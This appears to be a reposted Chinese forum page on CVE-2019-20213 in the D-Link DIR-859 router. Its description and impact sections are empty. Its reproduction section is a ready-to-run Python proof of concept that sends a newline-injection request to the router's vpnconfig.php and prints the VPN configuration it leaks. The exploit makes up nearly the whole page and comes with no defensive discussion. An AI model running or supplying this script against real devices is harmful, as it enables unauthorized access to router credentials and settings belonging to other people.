

# （CVE-2019–20213）D-Link DIR-859 rce

> 原文：[https://www.zhihuifly.com/t/topic/3388](https://www.zhihuifly.com/t/topic/3388)

# （CVE-2019–20213）D-Link DIR-859 rce

## 一、漏洞简介

## 二、漏洞影响



## 三、复现过程

```
import requests
# Miguel Mendez Z.
FILES = ["vpnconfig.php"]
IP = "192.168.0.1"
PORT = "80"
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "\n-----------VPN-------------\n"
url_vpn = 'http://{ip}:{port}/{file1}?pwnd=%0a'.format(ip=IP, port=PORT, file1=FILES[0])
print(requests.get(url_vpn).text) 
```